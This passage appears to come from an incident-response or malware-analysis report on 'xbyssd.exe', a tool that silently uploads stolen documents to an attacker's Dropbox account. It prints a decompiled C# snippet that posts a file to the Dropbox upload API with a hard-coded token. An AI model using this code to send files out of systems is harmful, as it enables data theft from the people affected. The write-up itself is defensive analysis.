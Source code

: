 The filename of the local file is extracted and reused as the target filename in the Dropbox directory.

```c
using HttpClient client = new HttpClient();
client.DefaultRequestHeaders.Authorization = 
    new AuthenticationHeaderValue("Bearer", accessToken);

client.DefaultRequestHeaders.Add("Dropbox-API-Arg", 
    "{\"path\": \"" + dropboxPath + "\", \"mode\": \"add\", \"autorename\": true, \"mute\": false}");

client.DefaultRequestHeaders.Add("Content-Type", "application/octet-stream");

HttpResponseMessage response = await client.PostAsync(
    "https://content.dropboxapi.com/2/files/upload", content);
```

This code confirms that `xbyssd.exe` is a lightweight, single-purpose data exfiltration utility designed to operate silently in compromised environments. It allows the attacker to upload any specified file directly to their Dropbox account using an embedded API token, with no user interaction required.

The use of cloud storage (as opposed to traditional C2 channels) makes detection more difficult and highlights the adversary’s intent to blend in with legitimate traffic and services.

### Exfiltration

on `CTA-WKS01`, the binary `xbyssd.exe` was executed multiple times to exfiltrate sensitive documents from a mapped drive. **On February 26, 2025, between 11:57:28 UTC and 11:58:36 UTC**, a series of command-line executions show that the attacker used this utility to attempt uploads of files.

<img src="/assets/img/apt31.png" alt="" />

These files were accessed and executed as arguments passed to `xbyssd.exe` through `cmd.exe`, consistent with the tool's design observed during reverse engineering. The sequence of executions, with slight spacing in time, suggests manual or script-driven attempts to upload multiple documents of interest — likely business-sensitive or project-related materials — to the `Dropbox` account hardcoded in the binary.
